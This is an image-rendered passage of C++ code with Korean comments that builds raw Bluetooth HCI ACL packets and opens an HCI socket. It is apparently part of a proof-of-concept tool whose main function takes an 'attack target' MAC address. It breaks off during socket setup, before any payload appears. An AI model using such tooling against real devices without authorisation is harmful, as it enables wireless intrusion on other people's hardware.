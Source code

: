 ```c++
  uint8_t type = HCI_ACLDATA_PKT;

  // flag 필드(16bit)가 BC와 PB로 나누어져 있음.
  uint16_t BCflag = 0x0000;
  uint16_t PBflag = 0x0002;
  uint16_t flags = ((BCflag << 2) | PBflag) & 0x000F; // BC,PB 병합


  hci_acl_hdr hdr;
  hdr.handle = htobs(acl_handle_pack(hci_handle, flags));
  hdr.dlen = data_length;

  struct iovec iv[3];
  
  /*
  ACL(Asynchronous Connection-Less) 패킷 구조
  | opcode (8) | header (32)                                   | data |
  | opcode (8) | handle (12) | PB(2) | BC(2) | data length(16) | data |
  */

  // opcode
  iv[0].iov_base = &type;
  iv[0].iov_len = 1;

  // header
  iv[1].iov_base = &hdr;
  iv[1].iov_len = HCI_ACL_HDR_SIZE;

  // data
  iv[2].iov_base = data;
  iv[2].iov_len = data_length;

  return writev(hci_socket, iv, sizeof(iv) / sizeof(struct iovec));
}

int main(int argc, char **argv) {
  if (argc != 2) {
    printf("Usage: %s MAC_ADDR\n", argv[0]);
    return 1;
  }

  // destination bd addr : 실행인자 MAC_ADDR 로 받은 공격대상 MAC 주소
  bdaddr_t dst_addr;
  str2ba(argv[1], &dst_addr);

  // 블루투스 HCI 재실행
  printf("[*] Resetting hci0 device...\n");
  system("sudo hciconfig hci0 down");
  system("sudo hciconfig hci0 up");

  // HCI socket 생성
  printf("[*] Opening hci device...\n");
  struct hci_dev_info di;
  int hci_device_id = hci_get_route(NULL);      // 연결 가능한 장치 중 첫번째 hci
  int hci_socket = hci_open_dev(hci_device_id); // socket 생성
  if (hci_devinfo(hci_device_id, &di) < 0) {
    perror("hci_devinfo");
    return 1;
  }

  // HCI socket 옵션 설정 - HCI_FILTER(2)
  struct hci_filter flt;        // ptypes, events를 멤버로 가지는 구조체
  hci_filter_clear(&flt);       // 0x00 으로 초기화 (memset)
```